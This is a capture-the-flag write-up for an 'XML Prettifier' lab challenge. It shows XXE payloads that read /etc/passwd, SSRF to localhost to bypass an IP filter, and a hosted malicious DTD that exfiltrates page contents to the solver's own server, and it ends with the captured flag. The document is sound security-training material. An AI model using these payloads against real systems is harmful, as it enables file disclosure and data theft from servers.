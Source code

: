 # XML Prettifier

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information
to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere
on the web.

Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .

May the Packet be with you!

---

This challenge gave me a hard time. I knew what I need to do, I just couldn't figure out how exactly to do it.

This is the portal

![](portal.png)

The goal is to read **Notes** (`/notes`) which are, however, protected by the IP filter:

```
HTTP 403 Forbidden
IP filter is active, content is accessible only from localhost.
```

The first obvious choice is to try [XXE injection](https://portswigger.net/web-security/xxe). And indeed,
the web is vulnerable:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<a>&xxe;</a>

<a>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```

So far so good. Let's try SSRF to read `/notes` and bypass IP filter:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<a>&xxe;</a>

http://localhost:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name
http://localhost:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8
<string>:2:9:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'xxe' failed to parse
```

This kinda works. Unfortunately notes content is **not a valid XM**L, so it can't be included into our XML.

I read a few articles about XXE, looking for some way how to get around this.

- [HLOverflow / XXE-study](https://github.com/HLOverflow/XXE-study)
- [XML external entity (XXE) injection: PortSwigger](https://portswigger.net/web-security/xxe)
- [XXE - XEE - XML External Entity: HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

All the possible solutions required to host somewhere my malicious DTD. However, the server **doesn't have access to the
internet**.

## Sidetrack: Reading filesystem

I was a bit desperate and started to look for some alternatives, hoping to find something interesting on the filesystem.

List of possibly interesting files to read:

- `/etc/passwd`
- `/etc/resolv.conf`
- `/etc/hosts`
- `/etc/init.d/apache2` (not valid XML)
- `proc/self/cwd` - points to current workdir of the running process
- `proc/self/maps` - memory layout, loaded libraries, see [](maps.txt)
- `proc/net/route`
- `/opt/prettier/.gitignore`

I was able to figure out this Apache + WSGI + Python based app. Located in `/opt/prettier`. Didn't help me much though
as I was unable to read any source code or the notes file directly from the disk.

## Solution: The VPN 🤦‍♂️

After all I asked for a hint, and I was told to **use my computer to host the malicious DTD**!
My machine is in VPN so the Prettifier server can access it. Of course!

Then it was easy. I used Python `http.server` module to host my malicious DTD:

```
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.200.0.26:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

Don't forget to disable/configure the firewall.

Finally, send the request:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.200.0.26:8000/malicous.dtd"> %xxe;]>
```

The request failed (`Invalid URI`) but the printed error message contains the flag:

![](solved.png)

Flag is `FLAG{GG53-5U3w-VT8F-qB31}`



